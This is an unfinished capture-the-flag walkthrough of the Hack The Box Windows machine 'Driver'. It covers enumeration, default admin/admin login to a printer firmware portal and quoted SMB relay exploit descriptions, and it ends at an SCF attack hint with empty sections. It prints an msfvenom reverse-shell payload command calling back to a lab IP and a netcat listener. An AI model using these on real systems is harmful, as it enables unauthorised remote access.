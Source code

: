 ```yaml
---
title: "Driver"
author: "Me"
date: "January 03, 2022"
output: html_document
---
```


# Driver

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: Easy</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Windows</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_driver_desc.png){: height="300px" width = 320px"}
</div>

**Ports/services exploited:** 80/http, 445/SMB\\
**Tools:** autorecon, msfvenom\\
**Techniques:** SCF Files attacks\\
**Keywords:** HP MultiFonction Printer, SMB NT LM 0.12 dialect, MS10-012 (NTLM Weak Nonce), MS08-068 (SMB Relay Code Execution)

**TL;DR**: ?


## 1. Services enumeration
{:style="color:DarkRed; font-size: 170%;"}

Let's start this box by launching an *autorecon* scan:

````
sudo autorecon 10.10.11.105
`````

See *autorecon*'s official documentation or <a href="/_walkthroughs/Horizontall">Horizontall</a> for an explanation of the results. 
Here's the *nmap* output, performed by *autorecon*. The script took 1.5 hour to run! 

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_driver_nmap.png)
</div>

The following services are running:

- Microsoft IIS 10.0 web server on port 80
- Microsoft End Point Mapper (EPMAP), also known as MS-RPC, on port 135. It is used to remotely manage services such as DHCP server or DNS
- Microsoft-DS Active Directory (AD, Windows shares) or Microsoft-DS SMB (file sharing) on port 445
- WinRM or Wsman on port 5985, for remote management
- Something on port 7680 that could be, according to the internet, used by WUDO (Windows Update Delivery Optimization) in Windows LANs.

Also, the target OS is likely to be Microsoft Windows Server 2008 R2 at 90% or Windows 10 at 85%. It's not shown in *nmap*'s output above, but it also ran a few scripts such as *smb-os-discovery*, *smb-security-mode*, and so on. There was nothing interesting though.


## 2. Gaining a foothold
{:style="color:DarkRed; font-size: 170%;"}

Let's go through each directory *autorecon* created for those services, starting with http (*cat /results/10.10.11.106/scans/tcp80/tcp_80_http_nmap.txt*).\\
*Autorecon* performed an additional targeted *nmap* scan for port 80. This latter would inform us if it found any web vulnerability such as XSS or CSRF. it's not the case here, nothing stands out. It also performed directory bruteforcing with *feroxbuster* and different wordlists, but there's nothing interesting either. 

Next, we'll browse to *10.10.11.106* to have a look at that web page:

<div class="img_container">
![site]({{https://jsom1.github.io/}}/_images/htb_driver_site.png)
</div>

By searching "MFP Firmware Update Center" on the internet, we learn that it stands for HP **MultiFonction Printer**. 
We can look at the documentation to see that the default credentials are *admin/admin*:

<div class="img_container">
![default creds]({{https://jsom1.github.io/}}/_images/htb_driver_creds.png)
</div>

So, let's see if the site uses the default credentials:

<div class="img_container">
![site]({{https://jsom1.github.io/}}/_images/htb_driver_site2.png)
</div>

And it does. Apparently, they conduct tests MFPs firmware updates and/or drivers. The only working button is *Firmware Updates* and it takes us to the following page:

<div class="img_container">
![site]({{https://jsom1.github.io/}}/_images/htb_driver_site3.png)
</div>

So, this is where we can upload a file. This latter is then supposedly being reviewed and tested.
There are 4 Printer models to chose from: *HTB DesignJet*, *HTB Ecotank*, *HTB Laserjet Pro* and HTB Mono*. It's too early to say if that matters, but it's good to have that in mind.
Also, we notice in the URLs that the site is made of PHP scripts. This can be useful to search for *.php* file extensions specifically with *gobuster*, or to generate a php reverse shell payload, for example.\\
Let's try to upload a reverse shell payload generated by *msfvenom*. In this example, we will use a stageless payload for Windows x64. Before submitting it, we start a netcat listener to catch the potential reverse connection:

````
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f exe > revsh-x64.exe
sudo nc -nlvp 4444
`````

By uploading this file onto the web server, we see in the URL *10.10.11.106/fw_up.php?msg=SUCCESS*. That means the upload was successful, however we don't receive anything on the listener... Sometimes we have to trigger the execution of the uploaded file by browsing to its location and clicking on it, but we don't know where it was uploaded. Is it uploaded on an SMB share? Because it is said that "the testing team will review the uploads manually and initiate the testing", I waited for a moment to see if it would somehow be executed by a cronjob, but it's not the case. Or maybe it is the case but it's not the right payload...\\

Well, if it is indeed upload on a SMB share, let's enumerate this service to see what we can get. Thanks to *autorecon*, everything has been done already and can be found in */results/10.10.11.106/scans/tcp445*. There's a specific SMB *nmap* scan, *enum4linux* results, and other SMB enumeration results:

<div class="img_container">
![SMB]({{https://jsom1.github.io/}}/_images/htb_driver_smb.png)
</div>

We see *nmap* ran some NSE scripts, and some of them failed. We see however that SMB uses *NT LM 0.12* (SMBv1) dialect, which appears to be dangerous. This reminds me of <a href="/_walkthroughs/Lame">Lame</a>, a Windows box in which we exploited another SMB dialect, *Samba*.\\
I know NTLM from Windows NTLM hashes, but not really in this context. From the internet, here's what I found about it:

"*NTLM (NT Lan Manager) is a challenge-response authentication protocol used by the SMB protocol. Windows systems commonly use the SMB protocol with NTLM authentication for network file/printer sharing and remote administration via DCE/RPC. Flaws in Microsoft's implementation of the NTLM challenge-response authentication protocol causing the server to generate duplicate challenges/nonces and an information leak allow an unauthenticated remote attacker without any kind of credentials to access the SMB service of the target system under the credentials of an authorized user. Depending on the privileges of the user, the attacker will be able to obtain and modify files on the target system and execute arbitrary code.*".

Well, that sounds promising and comes from <a href="https://www.exploit-db.com/exploits/15266">NTLM Weak Nonce (MS10-012)</a>. This concept seems to be used in an exploit, <a href="https://www.exploit-db.com/exploits/16360">SMB Relay Code Execution (MS08-068)</a>. A few words of its descriptions are given below:

"*This module will relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.
If the connecting user is an administrator and network logins are allowed to the target machine, this module will execute an arbitrary
payload. To exploit this, the target system	must try to	authenticate to this module. The easiest way to force a SMB authentication attempt 
is by embedding a UNC path (\\\\SERVER\\SHARE) into a web page or email message. When the victim views the web page or email, their 
system will automatically connect to the server specified in the UNC share (the IP address of the system running this module) and attempt to authenticate.

By searching *searchsploit smb relay*, we find an existing exploit. On *Metasploit*, this latter is rated excellent. However, looking at its options it seems we need to have access to the *ADMIN$* share, which we don't... As usual, I had to look for hints on the forum and it turns out we have to look at **SCF File Attacks**.




## 3. Vertical privilege escalation
{:style="color:DarkRed; font-size: 170%;"}


<div class="img_container">
![pwn]({{https://jsom1.github.io/}}/_images/htb_driver_pwn.png){: height="380px" width = 390px"}
</div>


<ins>**My thoughts**</ins>

Original box
Interesting to see that printers can present a security risk if not properly secured or updated.
2nd time I use autorecon, looks great but ton of information - easy to get lost. 

<ins>**Fix the vulnerabilities**</ins>


